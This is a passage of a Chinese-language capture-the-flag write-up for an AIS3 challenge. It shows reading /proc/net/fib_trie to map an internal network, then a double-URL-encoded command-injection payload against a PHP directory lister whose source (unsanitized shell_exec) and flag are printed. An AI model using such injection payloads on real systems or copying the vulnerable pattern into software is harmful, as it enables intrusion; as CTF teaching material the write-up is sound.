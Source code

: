 目標是要找到內網的另一台主機，看到這個可能會很想執行 `ifconfig` 看網卡資訊，但 Linux 有[很多特殊檔案](http://wp.blkstone.me/2018/06/abusing-arbitrary-file-read/#421)可以直接讀。例如可以讀 `/proc/net/fib_trie`：

```
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1    <--- 這是本機
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.19.0.0/16 2 0 2
        +-- 172.19.0.0/30 2 0 2
           |-- 172.19.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.19.0.3    <--- 這是本機
              /32 host LOCAL
        |-- 172.19.255.255
           /32 link BROADCAST
```

你會看到一堆網段，照直覺試了上一題主機附近的 IP 很容易就會找到 d1v1n6 d33p3r 主機的 IP。這個範例是 `172.19.0.2`（可能跟比賽時不一樣）。

找到主機之後，是一個可以列出目錄的網頁，看他的 output 就知道絕對是 command injection 的洞。如果你 inject 不出來其實是因為參數有加單引號。Flag 在 index.php 裡面，後面參數記得要 URL encode 兩次。

```
/?path=http://172.19.0.2?dir=.';cat%2520index.php;'
```

會回傳

```
<h2>Directory Lister</h2>
<p>Let's hack my stupid webpage for d1v1n6 d33p3r</p>

<form>
    <input type="text" name="dir" value="./">
    <input type="submit" value="List!">
</form>

    <pre>Output:
total 12
dr-xr-xr-x 1 www-data www-data 4096 May 28 06:09 .
drwxr-xr-x 1 root     root     4096 May  8 02:30 ..
-rw-r--r-- 1 root     root      344 May 23 21:21 index.php
<h2>Directory Lister</h2>
<p>Let's hack my stupid webpage for d1v1n6 d33p3r</p>

<form>
    <input type="text" name="dir" value="./">
    <input type="submit" value="List!">
</form>

<?php if ($dir = @$_GET['dir']): ?>
    <pre>Output:
<?= shell_exec("ls -al '$dir'") ?>
</pre>
<?php endif; exit; ?>
AIS3{y0u_4r3_4bl3_70_d1v3_d33p3r_n3x7_71m3}
```